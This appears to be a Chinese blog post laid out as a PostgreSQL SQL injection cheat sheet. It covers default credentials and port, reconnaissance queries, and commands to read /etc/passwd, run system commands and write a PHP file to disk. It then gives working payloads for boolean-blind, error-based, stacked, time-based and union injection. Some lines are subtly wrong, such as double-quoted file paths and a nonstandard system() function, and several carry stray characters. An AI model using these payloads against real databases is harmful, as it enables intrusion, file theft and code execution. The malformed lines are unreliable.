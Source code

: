 **目录**

[PostgreSQL](#t0)

[PostgreSQL常用查询命令](#t1)

[布尔盲注](#t2)

[错误注入](#t3)

[堆叠注入](#t4)

[时间盲注](#t5)

[联合查询](#t6)

* * *

PostgreSQL
----------

[PostgreSQL](https://so.csdn.net/so/search?q=PostgreSQL&spm=1001.2101.3001.7020)是一种特性非常齐全的自由软件的对象-关系型数据库管理系统（ORDBMS），4.2版本为基础的对象关系型数据库管理系统。

PostgreSQL安装后，默认的端口是：5432，默认的用户名是： postgres ，默认的数据库也是：postgres 。

*   注释符：--             
*   延时函数：pg\_sleep(3)

![](https://img-blog.csdnimg.cn/20200827095319613.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

PostgreSQL和MySQL一样，也有 information\_schema 数据库。

PostgreSQL安装后默认是不允许其他主机连接的，如果要让其他主机连接，找到PostgreSQL安装目录下的/data/pg\_hba.conf， 找到“# IPv4 local connections:”，然后在下面添加你的IP地址

```
host    all             all             192.168.10.1/32         md5
```


![](https://img-blog.csdnimg.cn/20200303221224565.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### PostgreSQL常用查询命令

```
select CURRENT_SCHEMA()           #查看当前权限      
select user                       #查看用户      
select current_user               #查看当前用户      
select chr(97)                    #将ASCII码转为字符      
select chr(97)||chr(100)||chr(109)||chr(105)||chr(110)  #将ASCII转换为字符串      
SELECT session_user;      
SELECT usename FROM pg_user;      
SELECT getpgusername();      
select version()                  #查看PostgreSQL数据库版本      1
SELECT current_database()         #查看当前数据库      1
select length('admin')            #查看长度       1
select case when(expr1) then result1 else result2 end;  #如果xx，执行result1，否则result2      1
例：select case when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;       1
select pg_read_file("/etc/passwd");          #读取文件      1
select system("whoami");                     #执行系统命令,11.2以下才有该命令      1
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';   #写入文件
```


### 布尔盲注

```
1 AND ASCII(SUBSTRING((SELECT COALESCE(CAST(COUNT(DISTINCT(schemaname)) AS CHARACTER(10000)),(CHR(32))) FROM pg_tables)::text FROM 1 FOR 1))>48
```


![](https://img-blog.csdnimg.cn/20200304171844751.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 错误注入

报错注入需要目标网站开启了报错提示。

```
1 AND 2518=CAST((CHR(113)||CHR(98)||CHR(122)||CHR(98)||CHR(113))||(SELECT COALESCE(CAST(schemaname AS CHARACTER(10000)),(CHR(32))) FROM pg_tables OFFSET 0 LIMIT 1)::text||(CHR(113)||CHR(112)||CHR(106)||CHR(98)||CHR(113)) AS NUMERIC)
```


![](https://img-blog.csdnimg.cn/20200304172145341.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 堆叠注入

和MySQL的堆叠注入一样，在后面加上查询语句即可。

![](https://img-blog.csdnimg.cn/20200304162739850.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 时间盲注

```
select pg_sleep(3)
```


![](https://img-blog.csdnimg.cn/20200304163740871.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 联合查询

```
order by 3   #查看显示列      
select null,null,函数      
然后接下来就是和MySQL注入一样了，关于PostgreSQL的语句可以查看SQLMap
```


![](https://img-blog.csdnimg.cn/20200304162500638.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200304162514599.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/2020030416242268.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

更多语句查看SQLMap